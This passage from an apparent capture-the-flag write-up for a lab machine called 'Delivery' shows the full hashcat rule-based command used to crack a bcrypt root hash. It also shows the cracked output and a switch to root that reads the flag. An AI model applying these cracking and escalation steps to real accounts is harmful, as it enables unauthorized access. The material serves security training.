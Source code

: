 From here we can start to build a `hashcat` command that uses a [rule-based attack](https://hashcat.net/wiki/doku.php?id=rule_based_attack).

> The rule-based attack is like a programming language designed for password candidate generation. It has functions to modify, cut or extend words and has conditional operators to skip some, etc. That makes it the most flexible, accurate, and efficient attack.

To perform this attack we need the hash and password to modify in text files to input into the command.

```none
echo '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO~' > root_hash
echo 'PleaseSubscribe!' > base_password
```

Instead of specifying our own rules, we can use a preconfigured list of rules. Some are part of Kali Linux by default, in the `/usr/share/hashcat/rules` directory. I have used `best64.rule` before, so I stuck with that and formed a command to crack the password.

```none
hashcat -m 3200 root_hash base_password --user -r /usr/share/hashcat/rules/best64.rule
```

The hash was cracked quite fast.

```none
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Sun Sep  5 14:09:12 2021 (2 secs)
Time.Estimated...: Sun Sep  5 14:09:14 2021 (0 secs)
Guess.Base.......: File (base_password)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       11 H/s (7.12ms) @ Accel:1 Loops:128 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 21/77 (27.27%)
Rejected.........: 0/21 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:20-21 Iteration:896-1024
Candidates.#1....: PleaseSubscribe!21 -> PleaseSubscribe!21

Started: Sun Sep  5 14:08:27 2021
Stopped: Sun Sep  5 14:09:15 2021
```

With the `root` password of `PleaseSubscribe!21`, we can simply switch users to get the root flag!

```none
maildeliverer@Delivery:~$ su - root
Password: 
root@Delivery:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Delivery:~# wc -c /root/root.txt
33 /root/root.txt
```
